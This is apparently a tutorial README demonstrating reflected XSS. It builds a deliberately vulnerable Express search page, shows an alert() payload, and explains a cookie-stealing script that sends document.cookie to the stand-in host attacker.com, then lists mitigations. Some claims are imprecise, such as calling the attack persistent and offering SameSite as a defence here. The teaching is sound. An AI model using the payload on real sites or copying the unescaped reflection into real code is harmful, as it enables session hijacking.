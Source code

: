 ### Reflected XSS Demostration

To demonstrate a Reflected Cross-Site Scripting (XSS) vulnerability, we can create a simple web application where user inputs are reflected in the response without proper sanitization or escaping. Here's how we can structure the demonstration:

#### 1. Setup a Vulnerable Web Application
Create a basic server and a webpage that reflects user input.

**Example Code (Node.js with Express):**

```javascript
const express = require('express');
const app = express();

// Serve static files from the public directory
app.use(express.static('public'));

// Vulnerable endpoint
app.get('/search', (req, res) => {
    const query = req.query.q || ''; // Get 'q' parameter from URL
    res.send(`
        <html>
            <head>
                <title>Search Page</title>
            </head>
            <body>
                <h1>Search Results</h1>
                <p>Your query: ${query}</p> <!-- Vulnerable reflection -->
                <form action="/search" method="get">
                    <input type="text" name="q" placeholder="Enter search query">
                    <button type="submit">Search</button>
                </form>
            </body>
        </html>
    `);
});

// Start server
app.listen(3000, () => {
    console.log('Server running on http://localhost:3000');
});
```

#### 2. Test the Application
Open the web application in a browser: `http://localhost:3000/search`.  
Enter any search query (e.g., "test") in the search bar, and the query will be reflected in the response, such as:

```bash
Your query: test
```

### 3. Exploit the Vulnerability
Inject a script payload in the query parameter:

Open the following URL in the browser:

```bash
http://localhost:3000/search?q=<script>alert('XSS')</script>
```

### 4. Observe the Effect
The browser will execute the injected script, displaying an alert box with the message `XSS`.

### Why is this Vulnerable?
- User input (`q` parameter) is directly inserted into the HTML response without escaping or sanitization.
- This allows malicious code to be executed in the victim's browser.

### Mitigation

- **Escape User Input:** Use libraries or frameworks to escape special characters like `<`, `>`, `&`, etc.

Example in Node.js:

```javascript
const escapeHtml = (str) => 
    str.replace(/&/g, '&amp;')
       .replace(/</g, '&lt;')
       .replace(/>/g, '&gt;')
       .replace(/"/g, '&quot;')
       .replace(/'/g, '&#039;');

res.send(`
    <html>
        <head><title>Search Page</title></head>
        <body>
            <h1>Search Results</h1>
            <p>Your query: ${escapeHtml(query)}</p>
        </body>
    </html>
`);
```

- **Content Security Policy (CSP):** Implement a CSP header to restrict the sources of scripts.
- **Validate and Sanitize Input:** Reject or sanitize any suspicious input at the server side.

This demonstration effectively showcases how reflected XSS works and its impact when user input is not handled properly.

## URL Explanation

### Base URL:
`http://localhost:3000/search`: This is the search endpoint of a web application running on localhost:3000.

### Query Parameter:
`q=<script>fetch('https://attacker.com/steal?data='+document.cookie)</script>`: The `q` parameter contains a malicious JavaScript payload:
- `<script>...</script>`: The script tags encapsulate JavaScript code, making the browser execute it when the payload is reflected on the page.

### Malicious Code:
```javascript
fetch('https://attacker.com/steal?data='+document.cookie)
```

### Malicious Code Explanation

- **`fetch()` Function:** Sends an HTTP request to the attacker-controlled server (`https://attacker.com/steal`).
- **Query Parameter (`?data=`):** Appends the current user's cookies (`document.cookie`) to the request, effectively sending them to the attacker.

### What Happens When the URL is Visited?

#### Injection and Reflection:
- The web application reflects the `q` parameter's content (the `<script>` tag) directly back into the HTML response without sanitization or encoding.

#### Script Execution:
- The browser sees the `<script>` tag and executes the JavaScript payload.
- The `fetch()` call runs in the victim's browser, using their session and credentials.

#### Cookie Theft:
- `document.cookie` contains cookies belonging to `localhost:3000` (e.g., session tokens).
- These cookies are sent to `https://attacker.com/steal`.

### Why Doesn’t SOP Stop This?

The **Same-Origin Policy (SOP)** ensures that:
- JavaScript running in one origin (e.g., `localhost:3000`) cannot access sensitive resources (cookies, storage, DOM) from another origin (e.g., `attacker.com`).

However:
- SOP does not restrict outgoing requests.
- The malicious script running on `localhost:3000` can freely send requests to external servers, including `attacker.com`.
- The browser prevents reading the response from `attacker.com` due to SOP, but this is irrelevant in this case because the attacker's goal is to receive the cookies via the request itself.

#### `document.cookie` Belongs to the Current Origin (`localhost:3000`):
- The script has full access to cookies for the origin it executes under.
- Since the script runs on `localhost:3000`, it can freely access `document.cookie` for that origin.

### Why Is This Dangerous?

- **Session Hijacking:** Cookies often include session tokens. If an attacker obtains them, they can impersonate the user.
- **Persistent Exploits:** The attacker can exploit users visiting the URL without needing further interaction.
- **Trust Exploitation:** The attack abuses the trust users place in a legitimate website (`localhost:3000`) by executing malicious actions under its domain.

### Mitigations Against Reflected XSS

- **Escape User Input in HTML Contexts:** Escape special characters like `<`, `>`, and `"` in reflected user input to prevent script execution.

- **Content Security Policy (CSP):** Use CSP headers to disallow inline scripts:
    ```http
    Content-Security-Policy: script-src 'self';
    ```

- **SameSite Cookies:** Use the `SameSite` cookie attribute to restrict cookies from being sent with cross-site requests:
    ```http
    Set-Cookie: session=abc123; SameSite=Strict;
    ```

By addressing these vulnerabilities, we can significantly reduce the risk of XSS attacks.
